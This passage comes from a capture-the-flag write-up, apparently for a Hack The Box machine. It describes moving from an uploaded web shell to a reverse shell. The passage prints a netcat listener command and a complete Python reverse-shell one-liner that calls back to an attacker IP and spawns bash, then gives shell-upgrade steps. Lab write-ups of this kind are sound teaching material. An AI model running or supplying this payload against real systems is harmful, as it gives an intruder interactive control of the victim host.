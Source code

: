 We navigate to /images/uploads/ but get a forbidden error.

![cmd](/images/magis/cmd.png) 

After navigating to the file, we can run a few enumeration commands to find out which tools are available on the host (eg. which nc, which python(3), locate python, etc ..)
We discover we have python3 so we chose that to create the reverse shell back to our host

Run a netcat listener and a python reverse shell oneliner (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) in the cmd parameter

>nc -lnvp 443
>
>/usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.45",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'


![python_rev_shell](/images/magis/rev_shell.png) 

Get a proper shell by runnig
>ctrl+z, stty raw -echo, fg, enter, enter)


#### Post Exploitation Enumeration 

We can check the file upload restrictions from upload.php
![up_check](/images/magic/up_check.png) 
